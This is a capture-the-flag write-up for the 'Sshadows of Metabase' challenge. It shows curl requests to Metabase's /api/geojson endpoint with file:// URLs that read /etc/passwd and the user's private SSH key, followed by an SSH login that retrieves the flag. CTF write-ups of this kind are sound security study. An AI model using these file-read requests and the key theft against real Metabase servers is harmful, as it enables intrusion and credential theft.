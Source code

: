 # Sshadows of Metabase

Author: [Junta](https://github.com/nielth/)

Etterretning tyder på at database analyserings-verktøyet vårt vak en Google Cloud VM har blitt kompromittert. Nettverksavdelingen rapporterer rare observasjoner av ssh trafikk over ugjennkjennbar IP adresser. Nøkkeloppdraget ditt er å jakte etter hva som har potensielt kan ha skjedd.

http://sshadows-of-metabase.chall.uiactf.no

# Writeup

We quickly found that there is a [RCE](https://github.com/m3m0o/metabase-pre-auth-rce-poc) on metabase. This required the endpoint `/api/session/properties` to reveal a `setup-token`

When we found out it did not we tried to find other exploits. About 40 minutes before end of the CTF I found this [youtube clip](https://www.youtube.com/watch?v=7jXCBgmOG-M) showing `LFE`. 

```bash
curl http://sshadows-of-metabase.chall.uiactf.no/api/geojson?url=file:////etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
metabase:x:2000:2000:Linux User,,,:/home/metabase:/bin/ash
```

Bingo, we know the home user so I tried a whole lot of known files until I got the eureka info, we did portscan earlier and port 22 (ssh) was open. So I tried to find a key. 

After a bit of trial and failure I found `authorized_keys`:

```bash
curl http://sshadows-of-metabase.chall.uiactf.no/api/geojson?url=file:////home/metabase/.ssh/authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMJ0hYshUSeg2p1uOIztcHzjQw68dZ1869y4DiBv0j7J
```

This shows an `ed25519` key. I tried to get `id_rsa` but nothing. Then I tried `id_ed25519` and got a key.

```
curl http://sshadows-of-metabase.chall.uiactf.no/api/geojson?url=file:////home/metabase/.ssh/id_ed25519
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
<removed part of key>
Qw68dZ1869y4DiBv0j7JAAAAF3Rob21hc25pZUB1YnVudHUtc2VydmVyAQIDBAUG
-----END OPENSSH PRIVATE KEY-----
```

Logging  in with this key I got access to the server:

```bash
$ ssh metabase@sshadows-of-metabase.chall.uiactf.no -i id_ed25519
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

e2693a325bbb:~$ ls -lah
total 20K    
drwxr-sr-x    1 root     root        4.0K Feb 24 23:08 .
drwxr-xr-x    1 root     root        4.0K Feb 24 23:08 ..
drwxr-sr-x    1 root     root        4.0K Feb 24 23:08 .cache
drwxr-sr-x    1 root     root        4.0K Feb 24 23:02 .ssh
-rw-r--r--    1 root     root          35 Feb 24 23:02 327a6c4304ad5938eaf0efb6cc3e53dc.txt
e2693a325bbb:~$ cat 327a6c4304ad5938eaf0efb6cc3e53dc.txt 
UiACTF{R3qu3$t_M3t4b@$3_1nj3ct!0n}
e2693a325bbb:~$ 
```